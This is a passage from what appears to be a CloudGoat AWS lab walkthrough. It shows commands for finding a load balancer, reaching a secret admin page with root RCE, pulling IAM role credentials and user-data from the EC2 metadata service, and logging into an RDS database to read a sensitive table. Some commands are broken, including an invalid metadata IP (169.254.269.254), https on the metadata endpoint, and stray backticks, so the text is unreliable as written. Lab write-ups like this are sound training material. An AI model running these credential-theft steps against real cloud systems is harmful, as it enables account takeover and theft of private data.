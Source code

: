 ```bash
            –-region $AWS_REGION \
            -–profile $SRC_PROFILE`
DNSNAME=`echo $ELBINFO | jq -r .LoadBalancers[].DNSName`
# cg-lb-cgidp347lhz47g-accounid.us-east-1.elb.amazon.com
```


3. visit the secret admin URL

```bash
# visit the public IP address of the elastic load balancer. It references a secret URL.
curl $DNSNAME

# visit the secret admin URL (the .html webpage identified in the ELB log file)
cg-lb-cgidp347lhz47g-accounid.us-east-1.elb.amazon.com:80:xxxxx

# try different commands.
# the web app is vulnerable to a remote code execution (RCE) attack via a secret parameter embedded in a form.
# and the commands are running as root.


# query the instance metadata API to obtain the credentials to reveal the role name of the EC2 instance.
# The instance metadata contains data about the EC2 instance that you can use to configure or manage the running instance.
curl https://169.254.269.254/latest/meta-data/iam/security-credentials
curl https://169.254.269.254/latest/meta-data/iam/security-credentials/role-name
# querying the user data to see if there were any user data specified during the creation of the EC2 instance.
# all the command history, discovers the RDS database credentials and address.
curl https://169.254.169.254/latest/user-data

# The user data contains commands and credentials to the RDS instance (with table “sensitive information”).
# access the RDS database using the credentials they found and acquires the scenario's goal: the secret text stored in the RDS database
psql postgresql://<db_user>:<db_password>@<rds-instance>:5432/<db_name>
# cloudgoat ->
# cloudgoat ->\dt
# cloudgoat ->select * from sensitive_information;
```


![012821-15-768x510](https://i.loli.net/2021/02/02/NlPfOEBxtuiAWY1.png)

![012821-16-768x420](https://i.loli.net/2021/02/02/F8bSCgEjBV62ZI1.png)

![012821-17](https://i.loli.net/2021/02/02/Wuk4rNJjtwVLiHT.png)

![012821-18](https://i.loli.net/2021/02/02/7PmExID5pHhqiMe.png)

![012821-21](https://i.loli.net/2021/02/02/NwfnIF4igUPLs5j.png)
